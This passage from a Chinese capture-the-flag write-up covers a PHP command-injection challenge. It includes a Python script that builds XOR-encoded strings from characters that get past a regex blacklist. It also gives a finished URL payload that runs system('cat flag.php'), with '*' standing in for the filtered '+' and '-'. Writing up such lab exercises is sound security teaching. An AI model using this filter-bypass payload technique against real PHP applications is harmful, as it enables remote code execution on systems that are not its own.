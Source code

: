 利用异或 `^`

利用之前命令执行那题的或运算的脚本, 稍微改一改

```python
import re

preg = '[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;'

def convertToURL(s):
    if s < 16:
        return '%0' + str(hex(s).replace('0x', ''))
    else:
        return '%' + str(hex(s).replace('0x', ''))

def generateDicts():
    dicts = {}
    for i in range(256):
        for j in range(256):
            if not re.match(preg, chr(i), re.I) and not re.match(preg, chr(j), re.I):
                k = i ^ j
                if k in range(32, 127):
                    if not k in dicts.keys():
                        dicts[chr(k)] = [convertToURL(i), convertToURL(j)]
    return dicts

def generatePayload(dicts, payload):
    s1 = ''
    s2 = ''
    for s in payload:
        s1 += dicts[s][0]
        s2 += dicts[s][1]
    return f'("{s1}"^"{s2}")'

dicts = generateDicts()
a = generatePayload(dicts, 'system')
b = generatePayload(dicts, 'cat flag.php')
print(a + b)
```

payload

`+` `-` 被过滤了, 可以用乘法 `*`

```
v1=0&v2=0&v3=*("%ff%ff%ff%ff%ff%ff"^"%8c%86%8c%8b%9a%92")("%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff"^"%9c%9e%8b%df%99%93%9e%98%d1%8f%97%8f")*
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131224074.png)

## web144

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208131227987.png)
